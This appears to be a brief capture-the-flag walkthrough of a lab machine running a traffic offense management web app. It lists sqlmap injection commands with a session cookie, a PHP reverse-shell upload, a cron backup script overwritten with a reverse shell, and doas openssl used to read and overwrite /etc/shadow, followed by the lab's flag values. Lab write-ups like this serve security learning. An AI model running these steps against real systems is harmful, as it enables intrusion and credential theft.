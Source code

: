 # Plotted_TMS 

> VOiD | Sunday 20 February 2022 05:10:05 PM UTC

My IP : 10.8.253.221
Target IP : 10.10.47.219



## PORT 445 [http - Apache]
```bash
http://10.10.47.219:445/management/
Traffic Offense Management System


http://10.10.47.219:445/management/admin/?page=drivers/manage_driver&id=4  <<-- sql here

Using sqlmap with dump database
sqlmap -u "http://10.10.47.219:445/management/admin/?page=drivers/manage_driver&id=4" --cookie="PHPSESSIONID=dd6tfb5apnerhqpc57nbr69qla" 

sqlmap -u "http://10.10.47.219:445/management/admin/?page=drivers/manage_driver&id=4" --cookie="PHPSESSIONID=dd6tfb5apnerhqpc57nbr69qla" --batch --dbs

http://10.10.47.219:445/management/admin/?page=system_info

upload php revshell and then enjoy
```

## USER [www-data]
```bash
* * 	* * *	plot_admin /var/www/scripts/backup.sh

mv backup.sh backup.sh.bak
echo revshell > backup.sh

lets wait

we have doas as suid

www-data@plotted:/home/plot_admin$ cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl


```


## USER [plot_admin]
```bash

plot_admin@plotted:~$ cat user.txt 
77927510d5edacea1f9e86602f1fbadb


doas openssl enc -in "/etc/shadow"	> shadow

doas openssl enc -in "./sh" -out "/etc/shadow"

root@plotted:~# cat root.txt 
Congratulations on completing this room!

53f85e2da3e874426fa059040a9bdcab

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms.
-sa.infinity8888
```